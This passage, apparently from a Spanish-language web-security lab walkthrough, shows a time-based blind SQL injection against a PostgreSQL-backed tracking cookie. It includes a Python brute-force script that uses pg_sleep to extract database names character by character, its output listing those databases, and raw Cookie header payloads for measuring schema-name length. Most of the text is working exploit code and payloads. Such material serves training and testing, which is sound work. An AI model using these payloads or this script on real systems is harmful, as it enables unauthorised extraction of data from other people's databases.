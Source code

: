 ```
                cookies = {
                    'TrackingId': "C5PhDxyLUgYK5wqP'||case when (substr((select string_agg(datname,', ') from pg_database),%d,1)='%s') then pg_sleep(2) else pg_sleep(0) end-- - " % (position, character),
                    'session': "BMvtH2Wf9tGi7WdeVufBPzLwygoHxxPD"
                }

                p1.status(cookies['TrackingId'][:150])

                time_start = time.time()

                r = requests.get(url, cookies=cookies)

                time_end = time.time()

                if time_end - time_start > 2:
                    output += character
                    f.write(character)
                    f.flush()
                    p2.status(output)
                    break

if __name__ == '__main__':
    makeRequest()
```

`Obtenemos` todas las `bases` de `datos`

```
# python sqli_time_based.py
[├] Fuerza bruta: C5PhDxyLUgYK5wqP'||case when (substr((select string_agg(datname,', ') from pg_database),44,1)='s') then pg_sleep(2) else pg_sleep(0) end-- - 
[q] Output: postgres,+template1,+template0,+academy_labs
```

En `PostgreSQL` cada `base` de `datos` contiene `esquemas` y solo podemos `seleccionar` los `esquemas` de la `base` de `datos` a la que estemos `conectados`. Para `listar` los `esquemas` de la `base de datos actual` primero debemos `obtener` la `longitud`

```
Cookie: TrackingId=cHGMMcxehmRwG3jt'||case+when+(length((select+string_agg(schema_name,', ')+from+information_schema.schemata))>1)+then+pg_sleep(2)+else+pg_sleep(0)+end--+-+; session=ezlYBe5u09pOXF3zAZ4zeRaLp96CZ2pD  
```

La `longitud` es de `38 caracteres`

```
Cookie: TrackingId=cHGMMcxehmRwG3jt'||case+when+(length((select+string_agg(schema_name,', ')+from+information_schema.schemata))=38)+then+pg_sleep(2)+else+pg_sleep(0)+end--+-+; session=ezlYBe5u09pOXF3zAZ4zeRaLp96CZ2pD  
```

Vamos a usar este `payload` para `bruteforcear caracteres`
